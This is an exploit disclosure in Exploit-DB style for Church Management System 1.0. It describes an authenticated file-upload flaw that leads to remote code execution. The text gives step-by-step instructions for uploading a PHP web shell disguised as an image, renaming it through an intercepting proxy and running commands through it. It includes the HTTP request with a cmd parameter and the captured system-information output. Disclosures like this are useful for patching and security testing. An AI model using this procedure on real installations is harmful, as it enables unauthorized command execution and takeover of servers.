     # Exploit Title: Church Management System 1.0 - Unrestricted File Upload to Remote Code Execution (Authenticated)
    # Date: 07/03/2021
    # Exploit Author: Murat DEMIRCI (@butterflyhunt3r)
    # Vendor Homepage: https://www.sourcecodester.com
    # Software Link: https://www.sourcecodester.com/php/11206/church-management-system.html
    # Version: 1.0
    # Tested on: Windows 10
    # CVE : N/A

    # Proof of Concept :

    1- Login any user account and change profile picture.
    2- Upload any php shell by altering it's extension to .jpg or .png. (i.e test.php.jpg)
    3- Before uploading your file, intercept your traffic by using any proxy.
    4- Change test.php.jpg file to test.php and click forward.
    5- Find your test.php file path and try any command.


    ###################### REQUEST ##########################################

    GET /cman/members/uploads/test.php?cmd=SYSTEMINFO HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: image/webp,*/*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://localhost/cman/members/dashboard.php
    Cookie: PHPSESSID=cne8l4ct93krjqobdus7nv2sjc

    ####################### RESPONSE #########################################

    HTTP/1.1 200 OK
    Date: Sat, 03 Jul 2021 11:28:16 GMT
    Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/8.0.3
    X-Powered-By: PHP/8.0.3
    Content-Length: 4410
    Connection: close
    Content-Type: text/html; charset=UTF-8


    Host Name:                 MRT
    OS Name:                   Microsoft Windows 10 Pro
    OS Version:                10.0.19043 N/A Build 19043
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Murat
    System Boot Time:          6/25/2021, 2:51:40 PM
    System Manufacturer:       Dell Inc.
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.


    ############################################################################